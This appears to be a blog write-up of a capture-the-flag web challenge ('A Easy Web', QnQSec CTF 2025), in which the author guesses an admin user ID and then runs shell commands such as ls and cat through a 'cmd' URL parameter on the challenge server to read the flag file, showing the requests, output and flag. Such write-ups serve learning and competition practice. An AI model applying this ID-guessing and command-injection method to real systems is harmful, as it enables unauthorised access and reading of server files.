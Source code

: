 +++
date = '2025-10-27T09:11:05+07:00'
title = 'QnQSec CTF - A Easy Web Writeup'
tags = ['QnQSec CTF 2025', 'CTFs']
description = 'This is the web I mad for testing but I don’t know if there anything strange can you help me figure out?'
draft = false

[cover]
  image = '/images/posts/qnqsec-cover.jpg'
  alt = 'QnQSec CTF - A Easy Web'
  caption = 'QnQSec CTF - A Easy Web'
  relative = false
+++

> **Room / Challenge:** A Easy Web (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** QnQSec CTF 2025
-   **Challenge:** A Easy Web (web)
-   **Target / URL:** `http://161.97.155.116:5000/`
-   **Points:** `50`
-   **Date:** `20-10-2025`

---

## Goal

We have to get the flag by guessing the UID to gain access as admin.

## My Solution

This is an easy challenge however we need to do some guessing and hope for luck.

The description of the challenge is:

```
This is the web I mad for testing but I don’t know if there anything strange can you help me figure out?
```

We need to find something strange in the website to leverage it and gain access as admin. Let's visit the page:

![Guide image](/images/posts/a-easy-web-1.png)

There is only one route that we can try to get admin access: `/profile?uid=1`. We have to guess the UID, I have done loads of guesses and finally I found the correct UID: `?uid=1337`

![Guide image](/images/posts/a-easy-web-2.png)

Click `Go to admin panel`:

![Guide image](/images/posts/a-easy-web-3.png)

Now it's easy. Visit `http://161.97.155.116:5000/admin?cmd=ls%20-la&uid=1337`:

```bash
total 48
drwxr-xr-x 1 nobody nogroup 4096 Oct 19 06:13 .
drwxr-xr-x 1 root   root    4096 Oct 17 01:40 ..
drwxr-xr-x 2 nobody nogroup 4096 Oct 17 01:40 .hidden
-rw-r--r-- 1 nobody nogroup  371 Oct 16 23:46 Dockerfile
-rw-r--r-- 1 nobody nogroup   27 Oct 19 06:05 a
-rw-r--r-- 1 nobody nogroup 1074 Oct 16 23:46 app.py
-rw-r--r-- 1 nobody nogroup   29 Oct 19 06:13 b
-rw-r--r-- 1 nobody nogroup  109 Oct 17 01:40 docker-compose.yml
-rw-r--r-- 1 nobody nogroup    6 Oct 16 23:46 requirements.txt
drwxr-xr-x 1 nobody nogroup 4096 Oct 16 23:46 static
drwxr-xr-x 1 nobody nogroup 4096 Oct 19 06:20 templates
```

Visit `http://161.97.155.116:5000/admin?cmd=ls%20-la%20.hidden&uid=1337`:

```bash
total 16
drwxr-xr-x 2 nobody nogroup 4096 Oct 17 01:40 .
drwxr-xr-x 1 nobody nogroup 4096 Oct 19 06:13 ..
-rw-r--r-- 1 nobody nogroup   51 Oct 16 23:46 flag-pNCQR0rSGNwlYXYisehjTwzRKgohvf8z.txt
```

Get the flag `http://161.97.155.116:5000/admin?cmd=cat%20./.hidden/flag-pNCQR0rSGNwlYXYisehjTwzRKgohvf8z.txt&uid=1337`:

```
QnQSec{I_f0und_th1s_1day_wh3n_I_am_using_sch00l_0j}
```
